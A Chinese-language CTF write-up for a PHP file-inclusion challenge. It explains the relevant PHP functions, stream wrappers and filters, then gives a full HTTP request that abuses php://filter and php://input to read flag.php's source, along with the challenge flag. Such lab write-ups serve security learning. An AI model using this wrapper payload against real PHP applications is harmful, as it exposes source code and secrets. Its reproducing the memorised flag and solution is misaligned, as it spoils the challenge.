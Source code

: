 # FILECLUDE

> 首先可看到这是通过GET传递参数file1和参数file2进行包含文件并显示的,是文件包含绕过,使用伪协议+编码绕过即可

## 涉及函数

### include

> 从外部引入php文件并执行,如果执行不成功,就返回文件的源码

### file_get_contents

> 把整个文件读入一个字符串中,可结合php://input使用,如file_get_contents('php://input'),请求方法为post,可获取数据


## PHP文件包含漏洞常用伪协议

```
file:// 访问本地文件系统
http:// 访问http(s）网址
ftp:// 访问ftp
php:// 访问各个输入/输出流
zlib:// 压缩流
data:// 数据
rar:// RAR压缩包
ogg:// 音频流
```

## filters类型

> String Filters: string.rot13、string.toupper、string.tolower、string.strip_tags

> Conversion Filters: convert.base64-encode & convert.base64-decode、convert.quoted-printable-encode & convert.quoted-printable-decode、convert.iconv.*

> Compression Filters: zlib.deflate、zlib.inflate、bzip2.compress和bzip2.decompress

> Encryption Filters: mcrypt.*和 mdecrypt.*

> [官方文档]https://www.php.net/manual/zh/filters.php

> [使用参考](https://blog.csdn.net/qq_44657899/article/details/109300335)

## filters支持编码

```
UCS-4*
UCS-4BE
UCS-4LE*
UCS-2
UCS-2BE
UCS-2LE
UTF-32*
UTF-32BE*
UTF-32LE*
UTF-16*
UTF-16BE*
UTF-16LE*
UTF-7
UTF7-IMAP
UTF-8*
ASCII*
EUC-JP*
SJIS*
eucJP-win*
SJIS-win*
...
```

> [官方文档](https://www.php.net/manual/zh/mbstring.supported-encodings.php)

## 思路分析

> 通过代码可以分析得到,这是考察文件名绕过的.使用伪协议绕过,读取到的file2内容得是hello ctf才能继续,这是就可以采用php://input结合的方式来绕过.

> file1参数被include函数使用,直接输入flag.php无效,需要使用伪协议绕过,可使用php://filter伪协议来读取源代码并被include加载出得到flag.php内容.php://filter/read=convert.base64-encode/resource=flag.php,得到的结果为base64编码,再base64解码即可.

## payload

```
POST /?file1=php://filter/read=convert.base64-encode/resource=flag.php&file2=php://input HTTP/1.1
Host: 61.147.171.105:55317
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 9

hello ctf
```

## flag

> cyberpeace{a519a2987bf74cc4061607125c9266bc}